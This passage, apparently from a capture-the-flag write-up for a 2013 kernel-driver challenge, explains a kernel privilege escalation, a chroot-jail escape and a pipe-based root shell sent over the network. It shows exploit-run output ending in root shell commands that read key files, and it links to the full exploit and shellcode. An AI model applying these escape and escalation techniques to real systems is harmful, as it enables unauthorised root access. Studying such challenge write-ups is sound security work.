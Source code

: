 After sending the shellcode, we should be able to issue a sys_times syscall and our process will be elevated to root. From there, we can do an old trick to escape the chroot jail: create a subdirectory in it, then chroot to the subdirectory. Our current directory will then be outside of the jail, so we can execute chdir("..") repeatedly to get to the real root directory.  Then, we can issue a chroot(".") to fully escape and reset our root directory to the real root directory. At this point we can do another read-key shellcode to get the key, but let's do it with a little bit more flair instead and pop a full root shell.

To do that, since we don't have socket file descriptors, we will need to create two sets of pipes and process the I/O ourselves across the network stack. In the shellcode, I fork two child processes to handle the I/O from the shell to the network, and then exec("/bin/sh"). For more information, look at the associate shellcode.

<pre>
[-] Info-Leak successful, but stack alignment is unexploitable, crash and retry
[-] Info-Leak successful, but stack alignment is unexploitable, crash and retry
[+] Info-Leak successful, Stack Address: 0xbfa57ba8  e1000 Base: 0xb7716000
[+] Assembled: shellcode/stager.asm Length: 217
[+] Assembled: shellcode/dma_overwrite.asm Length: 119
[+] Assembled: shellcode/shell.asm Length: 503
[+] Assembled: shellcode/kernel.asm Length: 19
[+] PUT command accepted
[+] Stager handshake confirmed, sending payloads
[+] Sent DMA kernel-mode overwrite payload
[+] Sent execve(/bin/sh) payload
[+] Sent stager activation code
[+] Sent kernel-mode syscall overwrite, delaying 2 seconds...
[+] Sending "id"
uid=0(root) gid=0(root) groups=0(root)
pwd
/
cat /home/e1000/key
MyVoiceIsMyPassport

Welcome back Werner Brandes. Your next job is to retrieve the key that is hidden in /root.
cat /root/key
TOO_MANY_SECRETS...SETEC_ASTRONOMY
</pre>

There you have it, a UDP root shell interacting directly with the PCI network device.

Thanks to Awesie for the great challenge.

Exploit script and shellcode available under: https://github.com/moralfag/ctf/tree/master/pctf2013-e1000

